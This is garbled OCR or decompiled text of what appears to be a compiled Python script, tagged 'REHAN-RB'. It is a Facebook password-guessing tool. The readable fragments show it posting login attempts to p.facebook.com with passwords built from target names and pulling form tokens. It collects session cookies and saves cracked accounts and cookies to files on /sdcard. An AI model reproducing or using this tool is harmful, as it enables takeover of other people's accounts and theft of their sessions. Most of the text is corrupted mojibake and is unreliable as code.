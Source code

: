 |а                    d2|
d3|м4ж  л        }|j        а                    ж   л         а                    ж   л         }d5|v r№|j        а                    ж   л         }d6а                    d7Д |j        а                    ж   л         а                    ж   л         D ж   л         ж  л        }t7          d8| Ыd9|	ЫЭж  л         t7          d:|z  ж  л         t9          d;d<ж  л        а                    | d=z   |	z   d>z   ж  л         t9          d?d<ж  л        а                    | d=z   |z   d>z   ж  л         t
          а                    | ж  л          ntd@|v rndAt<          v rct7          dB| z   d9z   |	z   dCz   ж  л         t9          dDd<ж  л        а                    | d=z   |	z   d>z   ж  л         t>          а                    | ж  л          n nРМщn.# t          j         j!        $ r tE          j#        dEж  л         Y nw xY wt          dz
  ad S )FNz

[1;37m [REHAN-RB M1] ·|[1;32mOK:-· [1;37mr   r   r   ┌Khan┌First┌Last┌first┌last┌Hostzp.facebook.com·viewport-width┌980·	sec-ch-uazA"Not(A:Brand";v="8",, "Chromium";v="111", "Google Chrome";v="111"·sec-ch-ua-mobilez?0·sec-ch-ua-platformz	"Windows"·sec-ch-prefers-color-scheme┌light┌dntr*   r/   r+   r1   a.  text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9·sec-fetch-site┌none·sec-fetch-mode┌navigate·sec-fetch-user·?1·!service-worker-navigation-preload·{"r":1007097066,"y":"m"}·sec-fetch-dest┌document·accept-encoding·gzip, deflate, brr0   ·en-US,en;q=0.9zPhttps://p.facebook.com/login/?refsrc=deprecated&ref_component=mbasic_footer&_rdr·name="lsd" value="(.*?)"·name="jazoest" value="(.*?)"z)https://p.facebook.com/login/save-device/┌login_no_pinй┌lsd┌jazoest┌uid┌next┌flow┌passzChttps://p.facebook.com/login/device-based/validate-password/?shbl=0FйrK   ┌allow_redirectsr4   ┌c_user·;c                 є"   Ч g | ]\  }}|Ыd |ЫЭСМ
S й·=r
   й┌.0┌key┌values      r   ·
<listcomp>zffb.<locals>.<listcomp>Ш  s:   А Ё  3BЁ  3BЁ  3B╔z╚s╨TY╕s╕s╕s└E└E╨4JЁ  3BЁ  3BЁ  3Br   ·

[1;32m [REHAN-OK] · | ·\[1;32m[COOKIE] %s·/sdcard/REHAN-OK.txt┌ar]   ·
·/sdcard/RB-COOKIES.txt┌
checkpointrW   ·

[38;5;208m [REHAN-CP] ·[1;97m·/sdcard/REHAN-CP.txtщ   й$r"   ┌stdoutrA   ┌loopr}   rЕ   ┌flushr   ry   r~   ┌lower┌replace┌random┌choice┌ugenr   r>   r?   r   r   rB   rE   r5   ┌get_dict┌keysr   ┌itemsr	   r@   ru   r{   rЖ   rH   rI   r   r   )rЫ   rЬ   rЭ   ┌sessionr╚   r╔   ┌ps┌ps2┌fikr┌pas┌ua┌head┌getlog┌idpass┌complete┌REHAN┌coki┌kukis                     r   rА   rА   В  s`  А хМ
╫╥╨╒X\╨X\╨X\╒]`╒ad╤]e╘]e╨]e╨]e╨f╤g╘g╨g╒hk╘hr╫hx╥hx╤hz╘hz╨hz▌╘"╤$╘$ИЁ%	╪ЯЪаC╤(╘(и╘+РЁ&╪$Я{Ъ{и3╤/╘/░╘2ШШ°Ё&╪%ШШШ°°°╪Ч[Т[С]Ф]Р╪ЧjТjСlФlР╪$Ё )ё )РD╪"ЯlЪlи7░5╤9╘9╫A╥A└&╚╤N╘N╫V╥V╨W^╨_a╤b╘b╫j╥j╨kq╨ru╤v╘vШ▌!Ь=н╤.╘.ШЁ  
а╨(8Ё   
╨:J╚EЁ   
╨S^Ё  adЁ   
Ё  fxЁ  z~Ё   
Ё  @TЁ  U`Ё   
Ё  bЁ  AHЁ   
Ё  JOЁ  QTЁ   
Ё  VqЁ  svЁ   
Ё  xDЁ  FHЁ   
Ё  IQЁ  SC
Ё   
Ё  E
U
Ё  W
]
Ё   
Ё  _
o
Ё  q
{
Ё   